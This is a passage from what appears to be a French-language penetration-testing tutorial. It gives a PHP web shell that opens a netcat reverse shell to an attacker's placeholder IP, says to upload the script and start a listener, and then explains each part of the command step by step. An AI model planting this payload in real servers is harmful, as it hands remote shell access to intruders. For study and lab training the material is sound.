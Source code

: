        {% code overflow="wrap" %}
       ```php
       <?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKING IP> <LISTENING PORT> >/tmp/f"); ?>
       ```
       {% endcode %}
   *   Upload the modified script and start a netcat listener on your machine:

       ```bash
       nc -lvnp <LISTENING PORT>
       ```

{% hint style="info" %}
<mark style="color:green;">**Explication**</mark>

1. **`rm /tmp/f`** : Cette commande supprime le fichier `/tmp/f` s'il existe déjà. Ceci est une précaution pour s'assurer qu'il n'y a pas de conflit avec un fichier existant.
2. **`mkfifo /tmp/f`** : Cette commande crée un FIFO (First In First Out), également appelé pipe nommé, à `/tmp/f`. Un FIFO est un type spécial de fichier qui peut être utilisé pour la communication entre processus.
3. **`cat /tmp/f`** : Cette commande lit le contenu du pipe nommé `/tmp/f`.
4. **`| /bin/sh -i 2>&1`** : Le contenu lu par `cat /tmp/f` est passé à un shell interactif (`/bin/sh -i`). L'option `-i` signifie que le shell est interactif. `2>&1` redirige les erreurs standard (stderr) vers la sortie standard (stdout), ce qui permet de capturer toutes les erreurs dans la sortie du shell.
5. **`| nc 10.10.10.10 1234`** : La sortie du shell est ensuite envoyée à `nc` (netcat), qui établit une connexion réseau vers l'adresse IP `10.10.10.10` sur le port `1234`. Netcat est un outil utilisé pour lire et écrire des données à travers les connexions réseau en utilisant le protocole TCP ou UDP.
6. **`>/tmp/f`** : La sortie de la connexion réseau est redirigée vers le pipe nommé `/tmp/f`. Cela permet de créer une boucle où les commandes et leurs sorties sont envoyées et reçues via le pipe et la connexion réseau.



<mark style="color:green;">**Explication de l'ensemble de la commande**</mark>

Cette commande réalise les étapes suivantes pour établir un reverse shell :

1. **Suppression de tout fichier existant** nommé `/tmp/f` pour éviter les conflits.
2. **Création d'un pipe nommé** (`/tmp/f`) qui permet la communication entre processus.
3. **Lecture du pipe** (`/tmp/f`) et passage de cette lecture à un shell interactif (`/bin/sh -i`).
4. **Redirection des erreurs standard** vers la sortie standard afin de capturer toutes les erreurs dans la sortie du shell.
5. **Établissement d'une connexion réseau** à une adresse IP et un port spécifiés (10.10.10.10:1234) via `nc`.
6. **Redirection de la sortie de la connexion réseau** vers le pipe nommé, créant ainsi une boucle de communication.



<mark style="color:green;">**Fonctionnement de la boucle**</mark>

* **Entrée des commandes** : Les commandes envoyées par l'attaquant à travers la connexion réseau arrivent dans le pipe nommé (`/tmp/f`).
* **Exécution des commandes** : Le shell interactif (`/bin/sh -i`) lit ces commandes depuis le pipe et les exécute.
* **Sortie des commandes** : La sortie des commandes (y compris les erreurs) est envoyée via `nc` à l'attaquant.
* **Boucle** : Cette sortie est redirigée vers le pipe nommé, où elle peut être lue et renvoyée à l'attaquant, permettant une communication continue.
{% endhint %}
